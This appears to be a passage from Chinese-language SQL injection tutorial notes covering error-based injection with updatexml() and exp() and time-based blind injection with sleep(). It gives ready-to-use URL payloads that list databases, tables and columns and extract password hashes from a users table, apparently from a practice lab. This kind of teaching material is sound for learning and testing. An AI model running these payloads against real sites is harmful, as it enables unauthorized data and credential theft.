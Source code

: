 ```
```

每个一个报错语句都有它的原理：

exp() 报错的原理：exp 是一个数学函数，取 e 的 x 次方，当我们输入的值大于 709 就会报错，然后 ~ 取反它的值总会大于 709，所以报错。

updatexml() 报错的原理：由于 updatexml 的第二个参数需要 Xpath 格式的字符串，以 ~ 开头的内容不是 xml 格式的语法，concat() 函数为字符串连接函数显然不符合规则，但是会将括号内的执行结果以错误的形式报出，这样就可以实现报错注入了。

```
爆库：?id=1' and updatexml(1,(select concat(0x7e,(schema\_name),0x7e) from information\_schema.schemata limit 2,1),1) -- +
爆表：?id=1' and updatexml(1,(select concat(0x7e,(table\_name),0x7e) from information\_schema.tables where table\_schema='security' limit 3,1),1) -- +
爆字段：?id=1' and updatexml(1,(select concat(0x7e,(column\_name),0x7e) from information\_schema.columns where table\_name=0x7573657273 limit 2,1),1) -- +
爆数据：?id=1' and updatexml(1,(select concat(0x7e,password,0x7e) from users limit 1,1),1) -- +

#concat 也可以放在外面 updatexml(1,concat(0x7e,(select password from users limit 1,1),0x7e),1)


```

这里需要注意的是它加了连接字符，导致数据中的 md5 只能爆出 31 位，这里可以用分割函数分割出来：

```
substr(string string,num start,num length);
#string为字符串,start为起始位置,length为长度

?id=1' and updatexml(1,concat(0x7e, substr((select password from users limit 1,1),1,16),0x7e),1) -- +


```

### 1.3 盲注

#### 1.3.1 时间盲注

时间盲注也叫延时注入 一般用到函数 sleep() BENCHMARK() 还可以使用笛卡尔积 (尽量不要使用, 内容太多会很慢很慢)

一般时间盲注我们还需要使用条件判断函数

```
#if（expre1，expre2，expre3）
当 expre1 为 true 时，返回 expre2，false 时，返回 expre3 

#盲注的同时也配合着 mysql 提供的分割函
substr、substring、left


```

我们一般喜欢把分割的函数编码一下，当然不编码也行，编码的好处就是可以不用引号，常用到的就有 ascii() hex() 等等

```
?id=1' and if(ascii(substr(database(),1,1))>115,1,sleep(5))--+
?id=1' and if((substr((select user()),1,1)='r'),sleep(5),1)--+


```
